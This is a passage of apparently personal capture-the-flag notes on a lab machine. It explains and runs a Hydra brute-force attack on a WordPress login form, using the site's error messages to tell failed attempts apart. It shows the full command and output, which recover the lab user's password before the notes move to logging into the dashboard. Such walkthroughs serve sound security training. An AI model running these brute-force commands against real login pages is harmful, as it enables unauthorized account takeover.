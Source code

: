 - `/wp-login.php` is the login page for a WordPress site.
- `log=^USER^` and `pwd=^PASS^` are the parameters where Hydra will inject the username and password from the list.
-  `wp-submit=Log In` is the name of the submit button in the form.
- Invalid username` is the failure condition; Hydra looks for this text to determine if a login attempt failed. If this text is found in the response, Hydra understands that the provided credentials did not work.
In summary, this command uses Hydra to perform a brute-force attack against a WordPress login form located at `http://10.10.0.129/wp-login.php`. It tries all usernames from the `fsocity.dic` file with the password "test" and looks for the phrase "Invalid username" to identify failed login attempts. This kind of attack aims to identify valid login credentials by systematically trying various combinations of usernames and passwords.


- using wordpress error messages to craft hydra command.
	- "The password you entered"
![[Pasted image 20240302160154.png]]
- Password - ER28-0652
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -t 50 -l elliot -P fsocity-sort.dic 10.10.0.129 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-02 15:40:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 50 tasks per 1 server, overall 50 tasks, 11452 login tries (l:1/p:11452), ~230 tries per task
[DATA] attacking http-post-form://10.10.0.129:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered
[STATUS] 2020.00 tries/min, 2020 tries in 00:01h, 9432 to do in 00:05h, 50 active

[80][http-post-form] host: 10.10.0.129   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-02 15:43:59
```

# Signing into Elliot's Wordpress dashboard
- Username - elliot
- Password - ER28-0652